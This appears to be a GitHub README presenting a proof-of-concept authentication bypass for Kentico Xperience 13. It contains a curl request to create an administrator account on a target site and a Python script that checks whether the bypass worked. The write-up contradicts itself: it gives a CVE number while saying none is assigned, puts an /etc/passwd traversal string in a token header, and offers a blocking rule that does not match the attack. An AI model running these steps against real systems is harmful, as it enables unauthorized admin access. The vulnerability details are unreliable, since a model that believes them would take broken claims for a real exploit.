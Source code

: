 # kentico-xperience13-AuthBypass-CVE-2025-0011
CVE-2025-0011 (CVE not assigned yet)
Kentico Xperience 13 Authentication Bypass (PoC)




 
 
**Affected Versions**: Kentico Xperience 13.0.0 - 13.0.45  

**CWE**: [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)  

---

## 📋 Overview

A critical authentication bypass vulnerability in Kentico Xperience 13 allows attackers to gain unauthorized administrative access by manipulating session validation logic. This flaw enables full control over CMS content, user data, and system configuration.

---

## 🔬 Technical Analysis

### Root Cause
- **Vulnerable Component**: `CMS.SessionProvider`  
- **Attack Vector**: Crafted HTTP headers with malformed `__RequestVerificationToken`.  
- **Impact**:  
  - Privilege escalation to Administrator.  
  - Arbitrary code execution via admin panel.  

### CVSS v3.1 Vector

CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H


---

## 🧪 Proof of Concept (PoC)


### Prerequisites
- Python 3.10+
- `curl` or Burp Suite


### Exploitation Steps
1. **Craft malicious request**:
```bash
curl -X POST "http://target.com/cms/admin" \
-H "Cookie: ASP.NET_SessionId=injected" \
-H "__RequestVerificationToken: ../../../../../../etc/passwd" \
-d "action=create_admin&username=attacker&password=P@ssw0rd!"


2. Validate access:


import requests

response = requests.get("http://target.com/cms/admin/users", cookies={"ASP.NET_SessionId": "injected"})
if "User Management" in response.text:
    print("[+] Authentication bypass successful!")


Warning: Test only on authorized systems.



🛡️ Mitigation
Immediate Actions
Apply Kentico patch: Security Bulletin KEN-2024-005.

Add WAF rule to block malformed __RequestVerificationToken:
location /cms/admin {
    if ($http_cookie ~* "__RequestVerificationToken=.*[<>]") {
        return 403;
    }
}

Long-Term Recommendations
Enable MFA for admin accounts.

Audit session management logic.

📚 References
Kentico Advisory

MITRE ATT&CK: T1557

NIST SP 800-123 Guide


❓ FAQ
Q1. Does this affect cloud-hosted instances?
Yes, if running unpatched versions.

Q2. Are there known in-the-wild exploits?
No confirmed cases at time of disclosure.


